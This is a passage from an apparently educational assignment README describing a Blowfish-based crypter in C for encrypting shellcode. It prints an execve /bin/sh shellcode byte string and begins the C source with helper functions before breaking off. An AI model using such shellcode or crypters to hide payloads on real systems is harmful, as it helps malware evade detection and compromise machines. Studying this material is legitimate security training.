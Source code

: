 # Assignment 7

## What to do
- Create a custom crypter
- Free to use any existing encryption schemas

In this assignment Blowfish cipher is implemented in C language. Further information regarding Blowfish cipher can be found in the following links:

https://www.schneier.com/academic/archives/1994/09/description_of_a_new.html
https://en.wikipedia.org/wiki/Blowfish_(cipher)

This implementation is customizable. Different shellcodes can be encrypted using another key in each case.

The shellcode used is the execve /bin/sh shellcode:
> \x31\xc9\xf7\xe1\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80

and is placed in the char array named _shellcode_.

The encryption key used in this implementation is the word _testkey_ and is placed in a char array named _key_.



```c
/*

	Design decisions
	block size: 64-bit = 8 bytes

*/

#include<stdio.h>
#include<stdint.h>
#include<stdlib.h>

#include"blowfish.h"

int paddingneeded(uint32_t len, uint32_t blocksize)
{
	// calculate the needed padding
	uint32_t padding=0;

	padding = len % blocksize;
	if (padding != 0)
		padding = blocksize - padding;

	return padding;
}

void swap(uint32_t *L, uint32_t *R)
{
	uint32_t temp;

	temp = *L;
	*L = *R;
	*R = temp;
}

int stringlen(uint8_t *s)
{
	// calculate the length of char array
	int i=0, len=0;

	while (s[i++] != '\0')
```